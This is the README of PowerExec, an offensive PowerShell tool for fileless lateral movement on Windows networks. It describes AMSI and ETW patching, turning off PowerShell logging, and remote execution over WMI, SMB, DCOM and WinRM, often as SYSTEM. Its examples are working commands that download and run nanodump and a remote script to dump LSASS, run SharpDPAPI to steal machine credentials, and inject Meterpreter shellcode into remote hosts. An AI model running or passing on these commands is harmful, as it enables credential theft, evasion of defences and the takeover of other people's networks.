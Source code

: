 # PowerExec

PowerExec combines various bypass techniques and execution methods for fileless lateral movement.


## Functions

```
New-PowerLoader                 -   builds PowerShell script block for in-memory execution of various payload types
Invoke-PowerExec                -   runs PowerShell script block on remote computers through various execution methods
```


## Payload types

The payload type must be specified within the function `New-PowerLoader`:

| Type      | Description                               |
| --------- | ----------------------------------------- |
| PoSh      | PowerShell script                         |
| NetAsm    | .NET assembly executable                  |
| PE        | Windows PE file (EXE/DLL)                 |
| Shellcode | Shellcode in binary format (experimental) |

Resulting PowerShell script block is built either from a local payload file or from a remote payload using a download cradle.

Please note that PE execution output will only be retrieved when run locally, not remotely.
Also, shellcode execution output can't be retrieved since it is injected in a detached process.


## Bypass techniques

Bypass techniques can be specified within the function `New-PowerLoader`:

| Bypass | Description                                              |
| ------ | -------------------------------------------------------- |
| AMSI   | Bypass Antimalware Scan Interface via in-memory patching |
| ETW    | Bypass Event Tracing for Windows via in-memory patching  |
| SBL    | Disable PowerShell Script Block Logging                  |
| PML    | Disable PowerShell Module Logging                        |
| PRM    | Disable PowerShell Readline Module                       |


## Execution methods

The execution method must be specified within the function `Invoke-PowerExec`:

| Method          | Description                                            | Covert channel               | Run as       |
| --------------- | ------------------------------------------------------ | ---------------------------- | ------------ |
| CimProcess      | Create process via WMI                                 | WMI property 'DebugFilePath' | Current user |
| CimService      | Create temporary service via WMI                       | WMI property 'DebugFilePath' | SYSTEM       |
| CimSubscription | Create temporary WMI event subscription (experimental) | WMI property 'DebugFilePath' | SYSTEM       |
| CimTask         | Create temporary scheduled task via WMI                | WMI property 'DebugFilePath' | SYSTEM       |
| SmbDcom         | Create DCOM instance via DCE/RPC                       | SMB named pipe               | Current user |
| SmbService      | Create temporary service via DCE/RPC                   | SMB named pipe               | SYSTEM       |
| SmbTask         | Create temporary scheduled task via DCE/RPC            | SMB named pipe               | SYSTEM       |
| WinRM           | Run powershell via PowerShell Remoting                 | Windows Remote Management    | Current user |

Depending on the method used, a covert channel is established in order to deliver the payload and to retrieve execution output.

Please note that multi-threading is supported for WinRM method only.
For WMI/CIM methods, the transport protocol can be chosen between DCOM and WSMAN.


## Examples

Run a remote PE locally while bypassing PowerShell Module Logging and Script Block Logging and AMSI:

```
PS C:\> & (New-PowerLoader -Type PE -FileUrl 'https://raw.githubusercontent.com/fortra/nanodump/main/dist/nanodump_ssp.x64.exe' -ArgumentList '-w','C:\Windows\Temp\lsass.dmp' -Bypass PML,SBL,AMSI)
```

Run a PowerShell script on domain servers through WinRM while bypassing ETW and AMSI:

```
PS C:\> $payload = New-PowerLoader -Type PoSh -FileUrl 'https://raw.githubusercontent.com/tmenochet/PowerDump/master/LsassDump.ps1' -ArgumentList 'Invoke-LsassDump' -Bypass ETW,AMSI
PS C:\> Invoke-PowerExec -ScriptBlock $payload -Method WinRM -ComputerDomain ADATUM.CORP -ComputerFilter Servers -Threads 20
```

Run a .NET assembly on remote hosts through WMI while bypassing ETW and AMSI:

```
PS C:\> $payload = New-PowerLoader -Type NetAsm -FileUrl 'https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.5_x64/SharpDPAPI.exe' -ArgumentList 'machinecredentials' -Bypass ETW,AMSI
PS C:\> Invoke-PowerExec -ScriptBlock $payload -Method CimProcess -Protocol Dcom -Authentication Default -ComputerList 192.168.1.1,192.168.1.2
```

Run a raw shellcode on a remote host through a temporary service:

```
PS C:\> New-PowerLoader -Type Shellcode -FilePath .\meterpreter.bin | Invoke-PowerExec -Method SmbService -ComputerList 192.168.1.1
```


## Acknowledgments

PowerLoader is inspired by the following researches:

  * https://rastamouse.me/blog/asb-bypass-pt3/
  * https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
  * https://www.bc-security.org/post/powershell-logging-obfuscation-and-some-newish-bypasses-part-1/
  * https://blog.xpnsec.com/hiding-your-dotnet-etw

PowerExec is inspired by the following researches:

  * https://www.fireeye.com/blog/threat-research/2017/03/wmimplant_a_wmi_ba.html
  * https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/
  * https://blog.harmj0y.net/empire/expanding-your-empire/
  * https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/
